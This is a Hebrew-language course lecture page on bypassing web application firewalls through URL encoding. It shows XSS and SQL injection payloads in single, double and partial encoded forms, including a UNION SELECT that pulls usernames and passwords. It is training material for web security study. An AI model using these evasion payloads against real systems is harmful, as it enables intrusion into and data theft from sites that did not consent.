

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/8 - עקיפת WAF/8.2 - עקיפה באמצעות קידוד/8.2 - עקיפה באמצעות קידוד - הרצאה/index.html · generator: mkdocs

# הbypass באמצעות encoding - Encoding-based WAF Bypass

## הרעיון המרכזי

רוב ה-WAFs מחפשים דפוסים בצורה הגולמית של הבקשה. אם נקודד את הpayload הזדוני בשיטת encoding שה-WAF לא מפענח אך השרת כן - נעקוף את ההגנה. הטריק הוא למצוא פער בין מה שה-WAF רואה למה שהאפליקציה מעבדת.

## הencoding URL - URL Encoding

### הencoding URL בודד - Single URL Encoding

הencoding הרגיל של תווים למבנה `%XX` לפי ערך ה-hex שלהם ב-ASCII:

```
< = %3C
> = %3E
' = %27
" = %22
( = %28
) = %29
/ = %2F
  = %20
```

דוגמאות:

```
# Original XSS payload
<script>alert(1)</script>

# With URL encoding
%3Cscript%3Ealert(1)%3C%2Fscript%3E

# Partial encoding - only certain characters
%3Cscript%3Ealert(1)%3C/script%3E
```

```
# Original SQLi payload
' UNION SELECT username, password FROM users--

# With URL encoding
%27%20UNION%20SELECT%20username%2C%20password%20FROM%20users--
```

רוב ה-WAFs מפענחים encoding URL בודד, אז טכניקה זו לבדה לרוב לא מספיקה.

### הencoding URL כפול - Double URL Encoding

כאשר השרת מבצע שני שלבי decoding (למשל, reverse proxy שמפענח ואז השרת מפענח שוב), אפשר לקודד פעמיים:

```
# Step 1: < becomes %3C
# Step 2: % becomes %25, so %3C becomes %253C

# XSS payload with double encoding
%253Cscript%253Ealert(1)%253C%252Fscript%253E

# WAF sees: %3Cscript%3E (doesn't recognize it as a payload)
# Server decodes step 1: %3Cscript%3E
# Server decodes step 2: <script>alert(1)</script>
```

![איור המראה כיצד קידוד URL כפול גורם לכך שה-WAF מפענח שכבה אחת ורואה ערך תמים בעוד השרת מפענח שכבה נוספת ומקבל payload זדוני](../../../images/illustrations/webadv-8-2-double-encoding-mismatch.svg)

```
# SQLi with double encoding
1%2527%2520UNION%2520SELECT%25201--

# WAF sees: 1%27%20UNION%20SELECT%201--
# Server decodes: 1' UNION SELECT 1--
```

### הencoding החלקי - Partial Encoding

הencoding רק חלק מהתווים כדי לשבור את הדפוס שה-WAF מחפש:

```
# WAF looks for: <script>
# We encode only part of the word

<%73cript>alert(1)</script>     # encode 's'
<scr%69pt>alert(1)</script>     # encode 'i'
<script>a%6cert(1)</script>     # encode 'l' inside alert
```

## הencoding Unicode - Unicode Encoding
